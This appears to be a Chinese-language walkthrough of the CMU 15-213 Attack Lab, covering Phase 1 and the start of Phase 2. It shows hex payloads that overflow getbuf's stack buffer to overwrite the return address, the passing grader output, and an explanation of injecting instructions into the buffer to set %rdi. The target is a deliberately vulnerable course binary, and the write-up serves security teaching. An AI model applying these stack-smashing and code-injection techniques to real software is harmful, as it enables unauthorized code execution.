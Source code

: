 注意是小端存储。

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧
c0 17 40 00 00 00 00 00     # 这里篡改了ret的返回函数地址
```

我存储为`phase1.txt`

作为参数运行`rtarget`:

```bash
cat phase1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00

```

## Phase 2

第二个阶段要求带参数进入`touch2`函数，`%rdi`作为第一个参数传递。

问题在于，现在我们可以利用缓冲区溢出，修改上一个栈帧的栈顶，也就是ret指令的返回值。

但是如何执行参数赋值呢？

正常来说带参数调用函数，应该是先对参数赋值，然后进入函数。

```nasm
movl $cookie, %edi
call <touch2>
```

问题就在于如何插入这个movl的攻击代码。

我们唯一能输入的内容只有缓冲区，所以一定在缓冲区内插入我们的代码（而且writeup的提示很明显，让我们使用gcc -c选项和objdump -d来手动获取一个汇编指令的字节码）

根据第一个阶段的注入，我们可以让ret的地址，绕回这个缓冲区，也就是让`%rip`（又名程序计数器PC）来指向这个区域，然后逐条执行攻击代码。

例如下面的输入。假设%rsp在getbuf函数中，值为0xabcde0

那么可以让前一个栈帧（test函数）的栈顶改成0xabcde0

从而`getbuf`内部的ret指令执行时，PC指向0xabcde0，那么这里开始只要注入代码，就可以照常执行攻击代码，从而对`%rdi`赋值cookie

```text
00 00 00 00 00 00 00 00     # 假设这里的地址是0xabcde0  <- %rsp
00 00 00 00 00 00 00 00     # 那么这里的地址是0xabcde8
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧
e0 cd ab 00 00 00 00 00     # 这里篡改了ret的返回函数地址 <- %rsp + 0x28
```
